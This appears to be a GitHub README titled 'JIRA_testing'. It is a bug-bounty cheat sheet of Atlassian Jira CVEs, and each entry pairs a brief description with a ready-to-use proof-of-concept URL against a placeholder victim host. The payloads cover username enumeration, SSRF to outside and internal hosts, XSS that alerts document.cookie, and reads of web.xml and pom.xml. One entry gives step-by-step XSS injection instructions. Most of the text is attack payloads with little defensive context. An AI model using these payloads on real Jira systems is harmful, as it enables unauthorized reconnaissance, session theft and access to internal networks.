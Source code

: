 # JIRA_testing

### cve-2019-8449 - Username enumeration throw informaton disclosure vulnerability 

The /rest/api/latest/groupuserpicker resource in Jira before version 8.4.0 allows remote attackers to enumerate usernames via an information disclosure vulnerability. 
 https://jira.atlassian.com/browse/JRASERVER-69796
 https://victomhost/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
 
 -----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### cve-2019-8451:ssrf-response-body 
 
The /plugins/servlet/gadgets/makeRequest resource in Jira before version 8.4.0 allows remote attackers
to access the content of internal network resources via a Server Side Request Forgery (SSRF) vulnerability due to a logic bug in the JiraWhitelist class.

https://jira.atlassian.com/browse/JRASERVER-69793?jql=labels%20%3D%20
 https://victomhost/plugins/servlet/gadgets/makeRequest?url=https://victomhost:1337@example.com
 
 ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### RCE Jira=CVE-2019–11581
 
https://hackerone.com/reports/706841

/secure/ContactAdministrators!default.jspa

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2018-20824

 vulnerable to Server Side Request Forgery (SSRF). This allowed a XSS and or a SSRF attack to be performed. More information about the Atlassian OAuth plugin issue see 
 https://ecosystem.atlassian.net/browse/OAUTH-344 . 
 When running in an environment like Amazon EC2, this flaw can used to access to a metadata resource that provides access credentials and other
 potentially confidential information. 
 
https://victomhost/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2020-14179 :- Information disclosure

 Atlassian Jira Server and Data Center allow remote, unauthenticated attackers to view custom field names and custom SLA names via an Information Disclosure vulnerability 
 in the /secure/QueryComponent!Default.jspa endpoint.
REF=https://jira.atlassian.com/browse/JRASERVER-71536
POC: 
https://victomhost/secure/QueryComponent!Default.jspa

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2020-14181 :- Enumerate user via information disclosure

Atlassian Jira Server and Data Center allow an unauthenticated user to enumerate users via an Information Disclosure vulnerability in the
/ViewUserHover.jspa endpoint.

Ref=https://jira.atlassian.com/browse/JRASERVER-71560?jql=text%20~%20%22cve-2020-14181%22
 POC:
https://victomhost/secure/ViewUserHover.jspa


https://victomhost/ViewUserHover.jspa?username=Admin

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

https://hackerone.com/reports/380354
CVE-2018-5230
https://jira.atlassian.com/browse/JRASERVER-67289
HOW TO EXPLOIT:
https://host/issues/?filter=-8
Go to the link above
Click the "Updated Range:" text area
Put your XSS payload in "More than [ ] minutes ago" (15 character payload limit) or in "In range [ ] to [ ]" (No length limit, ONLY put the payload in the first box)
Click Update
Payload will run. If it doesn't run chances are you used double quotes somewhere. Only use single quotes!

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### jira-unauthenticated-dashboards  

https://victomhost/rest/api/2/dashboard?maxResults=100

jira-unauth-popular-filters 
 https://victomhost/secure/ManageFilters.jspa?filter=popular&filterView=popular
 
 ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### jira-unauth-popular-filters 
 
 https://victomhost/secure/ManageFilters.jspa?filter=popular&filterView=popular
https://hackerone.com/reports/197726
https://newrelic.atlassian.net/secure/ManageFilters.jspa?filterView=popular
https://newrelic.atlassian.net/secure/ManageFilters.jspa?filterView=search

https://hackerone.com/reports/139970

https://host/secure/ConfigurePortalPages!default.jspa?view=popular
https://host/secure/ManageFilters.jspa?filterView=search&Search=Search&filterView=search&sortColumn=favcount&sortAscending=false

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Xss

/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert(‘XSS’)%22%3E.vm

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-3403 :- user name enumeration throw information disclosure

Information disclosured vulnerability
1.()https://jira.atlassian.com/browse/JRASERVER-69242
visit the URL address,you can check the user whether is exist on this host
/rest/api/2/user/picker?query=admin

So the attacker can enumerate all existing users on this jira server.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-8442 :- information disclosure

https://jira.atlassian.com/browse/JRASERVER-69241
visit the URL address,the server will leaking some server's information

/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2017-9506

https://blog.csdn.net/caiqiiqi/article/details/89017806
/plugins/servlet/oauth/users/icon-uri?consumerUri=https://www.google.nl

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-3402：[Jira]XSS in the labels gadget

/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=x2rnu%3Cscript%3Ealert(1)%3C%2fscript%3Et1nmk&Search=Search
ConfigurePortalPages.jspa

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2018-20824：[Jira]XSS in WallboardServlet through the cyclePeriod parameter

/plugins/servlet/Wallboard/?dashboardId=10100&dashboardId=10101&cyclePeriod=(function(){alert(document.cookie);return%2030000;})()&transitionFx=none&random=true


----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2017-9506

https://ecosystem.atlassian.net/browse/OAUTH-344
 exploit an SSRF vulnerability in confluence and was able to perform several actions such as bypass any firewall/protection solutions,
 was able to perform XSPA through assessing the response times for ports, access Internal DoD Servers and internal services.

I discuss the vulnerabilities exploited in my write which you can find here, 
https://medium.com/bugbountywriteup/piercing-the-veil-server-side-request-forgery-to-niprnet-access-c358fd5e249a

https://host/plugins/servlet/oauth/users/icon-uri?consumerUri=https://ipinfo.io/json

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### username and email diclose

https://host/secure/popups/UserPickerBrowser.jspa

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Atlassian Jira Unauth User Enumeration (CVE-2020-36289) 

Jira < 8.5.13
 8.6.0 ≤ Jira < 8.13.5
 8.14.0 ≤ Jira < 8.15.1
 
 PoC:
 
 /secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin
 
 ----------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### [CVE-2021-26086] Jira Limited Local File Read
 
 http://host/s/1xZbMTX8rN8TQTr2s4oqjh5ntOo/_/;/WEB-INF/web.xml
 
 -----------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### [CVE-2020-29453] - Pre-Auth Limited Arbitrary File Read
 
 http://host/s/1xqVb9EKKmXG4pzui1gHeg0yrna/_/%2e/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
 
 if its not running redirecting to login panel then run it with curl
 
 -------------------------------------------------------------------------------------------------------------------------------------------------------------------

/rest/menu/latest/admin?maxResults=1000
